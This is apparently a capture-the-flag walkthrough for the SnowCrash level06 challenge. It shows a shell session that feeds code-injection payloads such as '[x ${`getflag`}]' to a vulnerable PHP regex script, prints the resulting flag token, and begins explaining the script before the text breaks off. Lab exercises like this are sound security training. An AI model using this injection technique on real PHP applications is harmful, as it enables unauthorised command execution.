 level06@SnowCrash:~$ ls -l level06.php 
-rwxr-x--- 1 flag06 level06 356 Mar  5  2016 level06.php



level06@SnowCrash:~$ echo '[x `getflag`]' > /tmp/payload.txt
level06@SnowCrash:~$ cat /tmp/payload.txt
[x `getflag`]
level06@SnowCrash:~$ ./level06 /tmp/payload.txt
`getflag`
level06@SnowCrash:~$ echo '[x system("getflag")]' > /tmp/payload.txt
level06@SnowCrash:~$ cat /tmp/payload.txt
[x system("getflag")]
level06@SnowCrash:~$ ./level06 /tmp/payload.txt
system("getflag")
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/payload.txt
level06@SnowCrash:~$ cat /tmp/payload.txt
[x ${`getflag`}]
level06@SnowCrash:~$ ./level06 /tmp/payload.txt
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1


















This PHP script processes a file specified by the user (via command-line arguments) and transforms its contents using pattern-based substitutions. Here's a breakdown of what each part does:

---

### Full Breakdown

#### 1. **Function `y($m)`**

```php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);  // Replaces dots with " x "
    $m = preg_replace("/@/", " y", $m);    // Replaces @ with " y"
    return $m;
}
```

This function modifies a string by replacing:

* `.` (dot) → `" x "`
* `@` (at symbol) → `" y"`

#### 2. **Function `x($y, $z)`**
